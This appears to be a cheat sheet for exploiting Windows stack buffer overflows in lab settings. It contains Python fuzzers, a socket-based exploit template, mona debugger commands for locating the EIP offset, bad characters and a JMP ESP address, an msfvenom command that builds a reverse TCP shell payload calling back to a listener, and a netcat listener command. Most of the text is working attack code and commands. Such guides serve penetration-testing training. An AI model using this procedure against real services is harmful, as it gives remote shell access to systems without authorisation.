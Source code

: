 
Use fuzzer.py or fuzzer2.py, until the application crash inside Immunity Debugger.

# fuzzer.py

import socket, time, sys

IP = "<IP>"
PORT = <PORT>
timeout = 5

buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100

for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((IP, PORT))
        s.recv(1024)
        print("Fuzzing with %s bytes" % len(string))
        s.send(string)
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + IP + ":" + str(PORT))
        sys.exit(0)
    time.sleep(1)
# fuzzer2.py

import socket

IP = "<IP>"
PORT = <PORT>

payload = 1000 * "A"

try: 
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((IP,PORT))
    s.send(payload)
    print "[+] " + str(len(payload)) + " Bytes Sent"
except:
    print "[-] Crashed"

  

When the application crashes, EIP should be equal to 41414141 

Crash replication & controlling EIP
Pattern
Generate a cyclic pattern to found the exact offset of the crash :


!mona pc <SIZE>


/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <SIZE>
The size must be higher than the crash offset. Now modify the payload variable by the cyclic pattern :

# exploit.py

import socket

ip = "<IP>"
port = <PORT>

prefix = ""
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
    print("Done!")
except:
    print("Could not connect.")
Re-run the exploit, the application should crash. To find the exact offset of the crash use :

!mona findmsp -distance <SIZE>
Size is the same as the one used to create the pattern. The result should be something like :

EIP contains normal pattern : ... (offset XXXX)
Get the offset, modify in exploit.py:

The offset variable by the offset
The retn variable by “BBBB”
Remove the payload variable
offset = <OFFSET>
overflow = "A" * offset
retn = "BBBB"
payload = ""
Exploit.py, EIP = 42424242 
  
Bad characters

!mona bytearray -b "\x00"
Copy the results in the variable payload re-run exploit.py

!mona compare -f C:\mona\<PATH>\bytearray.bin -a <ESP_ADDRESS>
If bad chars are found, we need to exclude them as well.

!mona bytearray -b "\x00 + <BAD_CHARS>"

# Example
!mona bytearray -b "\x00\x01\x02\x03"
Then compare
!mona compare -f C:\mona\<PATH>\bytearray.bin -a <ESP_ADDRESS>

Finding a jump point
JMP ESP - Inside the .exe
!mona jmp -r esp -cpb "<BAD_CHARS>"
JMP ESP - inside a DLL
!mona modules
 Rebase, SafeSEH, ASLR, NXCompat are set to False. 

!mona find -s "\xff\xe4" -m <DLL>
Return address
Choose an address in the results and update exploit.py :

# Example of a JMP ESP address
0x625011af
# exploit.py
retn = "\xaf\x11\x50\x62"
Generate payload


msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -b "<BAD_CHARS>" -f c
Copy the generated shellcode and update exploit.py :

Setting the payload variable equal to the shellcode
NOP-sled
padding = "\x90" * 16
Start a listener
nc -lvp <PORT>
